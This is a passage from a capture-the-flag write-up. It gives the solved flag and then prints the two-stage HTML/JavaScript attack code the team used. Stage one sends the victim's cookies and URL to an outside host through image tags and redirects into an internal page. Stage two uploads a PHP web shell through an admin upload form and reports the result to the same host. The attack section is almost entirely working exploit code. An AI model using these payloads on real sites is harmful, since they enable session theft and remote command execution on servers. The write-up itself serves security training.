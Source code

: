    `DCTF{5a42e723159e537443b99ba7f95fbe04}`

:)

### Attack code

Here is the `stage1.html` we used. Including some diagnostics exfiltrated via `img` tags.

```html
<script>
document.write("<img src=\"http://f0rki.at/stage1/" + document.cookie + "-" + window.location + "\" />");

window.location = "http://127.0.0.1/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYwcmtpLmF0L3N0YWdlMi5odG1s";
</script>
```

Here is the `stage2.html` we used in the end. We had a couple of different versions of the payload until we got it right.

```html
<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>

<script>
document.write("<img src=\"http://f0rki.at/stage2/" + window.location + "\" />");

/*
<form method="post" enctype="multipart/form-data">
            Image: <input type="file" name="file" id="file">
            <input type="submit" value="Submit" name="submit" />
        </form>
*/

var content = "<?php echo system($_REQUEST['cmd']) ?>";
var blob = new Blob([content], { type: "text/plain" });
var data = new FormData();
data.append('submit', "Submit");
data.append('file', blob, "ozee2bai3weizohQuahCung4iQu4neeYXXX.php5");

jQuery.ajax({
    url: '/admin.php?page=upload',
    data: data,
    cache: false,
    contentType: false,
    processData: false,
    type: 'POST',
    success: function(data) {
        document.write("<img src=\"http://f0rki.at/stage2/success/" + escape(data) + "\" />");
    }
});

document.write("<img src=\"http://f0rki.at/stage2/done.png\" />");
</script>
```
